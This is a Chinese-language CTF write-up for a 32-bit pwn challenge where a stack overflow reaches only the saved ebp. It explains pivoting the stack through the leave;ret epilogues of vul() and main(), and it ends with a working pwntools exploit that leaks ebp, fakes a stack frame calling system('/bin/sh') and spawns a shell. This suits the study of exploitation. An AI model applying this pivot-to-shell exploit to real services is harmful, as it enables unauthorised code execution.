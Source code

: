 
### 第一题

#### 考点：溢出覆盖到rbp/ebp

#### 附件：


这是道栈迁移的题目，但是与常见的栈迁移不同，这题的栈迁移只能覆盖到ebp
看看主函数，一个puts一个vul()函数；

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1717833483333-a182220b-2ed3-4c39-9f48-4036eff33db7.png)

进vul()函数里面看看
![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1717833548793-ddb13d68-70ff-4acf-82b3-8bce2e6c709d.png)

可以看到有两次输入，典型的栈溢出类型题。但长度似乎不太够。只能覆盖到ebp。
对于这种题也有种简单方法解决。当我们遇到的是长度覆盖到ret的时候，我们可以输入两次leave；ret，当我们解决今天这种题的时候我们也可以利用leave；ret，只是用法不一样了。
用法：在每个函数退出的时候会自动调用leave；ret，可以看到main函数和vul()函数的末尾都有leave;retn。这就是我们需要的。
当我们经过read后，我们会退出vul函数，接着程序结束main还有个leave;ret正好两个。
##### main函数

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1717833929009-c5e45cdd-5aa9-4359-8284-738b734cf886.png)

##### vul函数
![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1717833965331-0ed0fb8a-87ee-49a6-b8bf-a41f2e891e8b.png)

因此只需借助vul()和main()函数退出时的leave;ret来进行栈的迁移就可解决。

##### Exp:

```
from pwn import*
p=process('./pwn1')
#context.terminal = ['tmux', 'splitw', '-h']
# p=remote('hnctf.imxbt.cn',56636)
syst=0x8048400
pay=b'a'*0x2b+b'B'

p.recvuntil(b'name?')
p.send(pay) 
p.recvuntil("B")
original_ebp = u32(p.recv(4))
print(hex(original_ebp))

payload2 = b'aaaa' 
payload2 += p32(syst)
payload2 += p32(0xdeadbeef) 
payload2 += p32(original_ebp - 0x28) 
payload2 += b'/bin/sh'
payload2 = payload2.ljust(0x2c, b'\x00')
payload2 += p32(original_ebp - 0x38) 
#gdb.attach(p)
p.sendline(payload2)
p.interactive()
```
